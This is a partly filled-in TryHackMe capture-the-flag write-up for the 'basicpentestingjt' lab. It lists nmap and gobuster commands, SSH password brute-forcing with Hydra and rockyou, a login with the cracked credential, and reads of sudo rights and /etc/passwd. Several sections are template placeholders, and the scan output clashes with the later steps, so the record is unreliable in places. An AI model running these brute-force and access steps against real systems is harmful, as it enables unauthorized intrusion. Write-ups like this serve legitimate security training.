 
# 🛡️ TryHackMe Room Write-up Template


# 🏠 TryHackMe Room: basicpentestingjt
> Difficulty:Easy  
> Category: web app hcking and Priveldge Escalation
> Room URL: https://tryhackme.com/room/basicpentestingjt

---

## 🧠 Overview

**Objective**:  
  
"In this room we need to exploit,enumerate and escalate our privileges using various tools and skills"

---

## 🧰 Tools Used

-`nmap`
-`gobuster`
-`Enum4linux`

---

## 🌐 Enumeration

### 🔍 Nmap Scan
```
nmap -A -sS -p- -sV -Pn -T4 10.10.212.30
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-13 01:34 EDT
Stats: 0:04:07 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 38.20% done; ETC: 01:45 (0:06:40 remaining)
Stats: 0:06:43 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 64.67% done; ETC: 01:44 (0:03:40 remaining)
Nmap scan report for 10.10.212.30
Host is up (0.17s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 5 hops

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   23.60 ms  10.17.0.1
2   ... 4
5   152.40 ms 10.10.212.30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 604.90 seconds

```
---

## 📁 Web Enumeration

### Gobuster/Dirb Scan

```bash
gobuster dir -u 10.10.212.30 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

**Interesting Findings**:

* `/development`
* `/server-status`
---
## Enum4linux
" found users on the server"
- kay
- jan


## 🔓 Brute forcing 

### Hydra
`hydra -l jan -P rockyou.txt ssh://10.10.212.30`
got a password 
- * armando*

### SSh into the server

`ssh jan@10.10.212.30`

---

## 📈 Privilege Escalation

### Enumeration with LinPEAS

* Use `linpeas.sh`, `sudo -l`, or manual checks:

```bash
sudo -l
cat /etc/passwd
```

### Vulnerability Found

* Misconfigured sudo
* Cron job
* SUID binary
* Kernel exploit

---

## 🔑 Flags

* `user.txt`: `THM{xxxxxxxxxxxxxxxxxxxxxxxx}`
* `root.txt`: `THM{yyyyyyyyyyyyyyyyyyyyyyyy}`

---

## 💡 Lessons Learned

* Key takeaways from the room.
* New tools or techniques learned.
* Any real-world relevance.

---



---

## 🧠 References

* [TryHackMe Room](https://tryhackme.com/room/<room-name>)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [GTFOBins](https://gtfobins.github.io/)

```


